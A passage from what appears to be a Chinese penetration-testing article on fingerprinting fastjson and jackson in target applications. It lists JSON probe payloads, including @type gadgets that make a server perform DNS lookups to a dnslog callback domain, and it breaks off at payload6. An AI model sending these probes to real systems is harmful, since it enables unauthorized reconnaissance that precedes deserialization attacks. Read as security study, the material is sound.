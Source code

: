 ### 1.1.1 dnslog判断法

`payload1`：

```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"rtpmognpiy.dgrh3.cn"}}
```

`payload2`：

```json
{{"@type":"java.net.URL","val":"http://qvhkmkgcta.dgrh3.cn"}:"a"}
```

如果以上`payload`正常返回并受到`dnslog`请求，说明目标使用的是`fastjson`框架。

### 1.1.2 解析判断法

`payload3`：

```json
{"ext":"blue","name":{"$ref":"$.ext"}}
```

如果解析成功，那么说明目标使用的是`fastjson`：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-5cf5ba9dfca27d672ef33caa49b1b90df14d2bd5.png)  
至于这个下面的这个`payload4`，需要根据具体环境参数来修改，不可直接使用：

```json
{"a":new a(1),"b":x'11',/*\*\/"c":Set[{}{}],"d":"\u0000\x00"}
```

本意就是如果能对上面的参数的值自动解析，说明使用了`fastjson`组件：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-f9579bd41885ecb3d1b5129c37ea786d1d319edf.png)  
`payload5`：

```json
{"@type": "whatever"}
```

如果对方的代码写的是像我这样显示报错内容的话，可以通过这个来判断（出现`autoType is not support. whatever`说明使用了`fastjson`），但是一般不会，所以实战中基本上用不到：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-04e86df468a26562d7e5b5f2162ba63e8bc5e15e.png)

1.2 jackson
-----------

### 1.2.1 浮点类型精度丢失判断法

如果对方传入的参数中存在一个`double`类型的（比如说年龄），我们就可以利用这个方法来判断。  
正常传参：

```json
{"score": 1}
```

`payload6`：
